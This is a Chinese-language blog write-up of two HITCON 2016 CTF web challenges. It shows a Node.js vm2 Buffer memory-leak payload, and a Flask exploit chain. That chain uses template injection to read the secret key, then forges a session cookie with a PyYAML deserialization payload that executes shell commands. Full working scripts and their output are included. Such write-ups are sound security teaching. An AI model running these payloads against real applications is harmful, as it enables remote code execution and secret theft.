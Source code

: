 title: HITCON 2016 web 总结
date: 2016-10-14 16:32:06
tags: 
- Web
- CTF
categories: H-blog
---

OTP和RSA遇到困难, 先发篇web的出来
本次HITCON, 我看了两题web, Leaking和Secure Post, 都挺有意思的

<!--more-->

# Leaking(Web 200)

![leak1](http://qn.lazysheep.cc/img/leak1.png)

> 源码: <https://github.com/Hcamael/CTF_repo/blob/master/HITCON/Leaking/index.js>

代码很简单, 很明显是绕vm2沙箱之类的黑魔法, 比较幸运, 搜到了相关资料: <https://github.com/ChALkeR/notes/blob/master/Buffer-knows-everything.md>

然后根据这里面的内容, 很容易就可以构造出payload:

```
/?data[]=for (var step = 0; step < 100000; step++) {var buf = (new Buffer(100)).toString('ascii');if (buf.indexOf("hitcon{") !== -1) {break;}}buf;
```

首先是通过数组bypass长度限制, 然后之后就是使用`Buffer`获取内存中的数据, 具体细节不是很清楚, 没有深入分析过, 感觉像是nodejs内存分配上的问题

这个payload不是每次都可以成功泄露出flag, 所以需要运行多次

![leak2](http://qn.lazysheep.cc/img/leak2.png)

# Secure Post(Web 50/150)

![spost](http://qn.lazysheep.cc/img/secpost.png)
![spost2](http://qn.lazysheep.cc/img/secpost2.png)

> 源码: <https://github.com/Hcamael/CTF_repo/tree/master/HITCON/Secure%20Posts%20and%202>

python flask web代码审计题, 挺有意思的, 有两个flag, 所以分为了两题

老司机能很熟练的找到问题点:
```
def render_template(filename, **args):
    with open(safe_join(app.template_folder, filename)) as f:
        template = f.read()
    name = session.get('name', 'anonymous')[:10]
    return render_template_string(template.format(name=name), **args)
```

很明显是模板注入, 关于模板注入推荐一篇文章: <http://rickgray.me/2016/02/24/use-python-features-to-execute-arbitrary-codes-in-jinja2-templates.html>

但是文章中的payload明显不能用, 因为:
```
name = request.form.get('author', 'anonymous')[:10]
```

name字段限制了10个byte的长度, 第一题分低, 相对的也比较简单
```
app.secret_key = config.flag1
```

所以可以读取配置信息:
```
{{config}}
```

![secu1](http://qn.lazysheep.cc/img/secu1.png)

![secu2](http://qn.lazysheep.cc/img/secu2.png)

可以看到
```
'SECRET_KEY': 'hitcon{>_<---Do-you-know-<script>alert(1)</script>-is-very-fun?}'
```

flag1 get

第二步根据经验可以判断出应该是执行命令, 读文件之类的.

```
def load_posts():
    handlers = {
        # disabled insecure data type
        #"eval": load_eval,
        #"pickle": load_pickle,

        "json": load_json,
        "yaml": load_yaml
    }
```

源码中这段, 把可以执行命令的危险数据类型给注释了, 不过还是漏了yaml

参考文档: <http://pyyaml.org/wiki/PyYAMLDocumentation>

yaml load同样可以造成命令执行

```
>>> data = """!!python/object/apply:os.system
... args: [id]"""

>>> yaml.load(data)
uid=1000(hehe) gid=1000(hehe) groups=1000(hehe),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),129(wireshark)
0
```

不过在这之前还存在一个问题, 数据在load之前, 都会经过一个dump, 那么如果绕过这个dump呢?

这就涉及到flask的session机制了, 不像php, seesion是保存在`/tmp/sess_$_COOKIE['PHPSESSID']` 文件中

flask通过secret_key对seesion进行加密, 然后保存在cookie中, 通过上一步我们获取到的secret_key我们就能构造任意cookie了

payload:
```
import yaml  
from flask.sessions import SecureCookieSessionInterface

key = r"hitcon{>_<---Do-you-know-<script>alert(1)</script>-is-very-fun?}"

class App(object):  
    def __init__(self):
        self.secret_key = None

def load_yaml(data):  
    import yaml
    return yaml.load(data)

exploit = """!!python/object/apply:eval
args: ["[{'title': 'b', 'date': 'October 10, 2016 05:36:11', 'author': 'a', 'content': __import__('os').popen('id').readlines()}]"]
"""

exploit = {'post_type': u'yaml',  
           'post_data': exploit}

app = App()  
app.secret_key = key

# Encode a session exactly how Flask would do it
si = SecureCookieSessionInterface()  
serializer = si.get_signing_serializer(app)  
session = serializer.dumps(exploit)

print("Change your session cookie to: ")  
print(session)

```

以上为构造cookie的代码

下面加上了攻击代码

payload2
```
import yaml  
import re
import requests
from flask.sessions import SecureCookieSessionInterface

key = r"hitcon{>_<---Do-you-know-<script>alert(1)</script>-is-very-fun?}"

class App(object):  
    def __init__(self):
        self.secret_key = None

def load_yaml(data):  
    import yaml
    return yaml.load(data)

exploit = """!!python/object/apply:eval
args: ["[{'title': 'b', 'date': 'October 10, 2016 05:36:11', 'author': 'a', 'content': __import__('os').popen('cat flag2').readlines()}]"]
"""

exploit = {'post_type': u'yaml',  
           'post_data': exploit}

app = App()  
app.secret_key = key

# Encode a session exactly how Flask would do it
si = SecureCookieSessionInterface()  
serializer = si.get_signing_serializer(app)  
session = serializer.dumps(exploit)

print("Change your session cookie to: ")  
print(session)

url = "xxxxx"

cookie = {"session": session}

r = requests.get(url, cookies=cookie)
print re.findall("(hitcon{.*})", r.content)
```

返回结果:
```
$ python payload2.py
Change your session cookie to: 
.eJwlj0FrgzAARv_KyHmHLM5BCz1YQTFOC9ppzGWYxEWdRoeuMZb-99n1-sH7Hu8KxmGaP0U5l2B_BU8M7EGQeroiycDQ64Uh_EPzGL4jT3N_sU99hopchwXBiq-DzA1mlRGwJMlEU_4WuKLBRkuMklr4H-rUOOqMYrj9dLxxlsjVMmqdJW4cHZ-HNW6HJUr5tHG1uDut4J8pHlvLkA1pbkO8ucjLbmTkeOEq-SJGKmZFKkxtzaxjxxqpCuTBwKdTkXODzfcv77Oa-svI-mwN3W5HUixceTiA2_OjejZjtfWasu_A7Q9r1lu4.CuNO7A.FE48aONgxecQpjbPEBOv5PgQdbo
['hitcon{unseriliaze_is_dangerous_but_RCE_is_fun!!}']
```
